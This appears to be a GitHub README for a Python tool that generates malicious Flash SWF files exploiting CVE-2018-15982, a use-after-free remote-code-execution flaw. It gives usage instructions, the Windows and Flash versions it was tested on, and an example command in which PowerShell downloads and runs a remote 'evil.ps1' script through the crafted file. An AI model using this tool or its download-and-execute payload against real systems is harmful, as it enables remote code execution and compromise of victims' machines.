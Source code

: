 # Adobe Flash CVE-2018-15982

This script dynamically creates a swf payload for CVE-2018-15982, which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982



Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.56.101/evil.ps1')" test.swf```
  


Tested on: 
* Windows 10 Enterprise 10.0.17134, Internet Explorer 11.285.17134.0
* Adobe Flash Player 31.0.0.153


## Example


Download a file and confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create-and-confirm.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

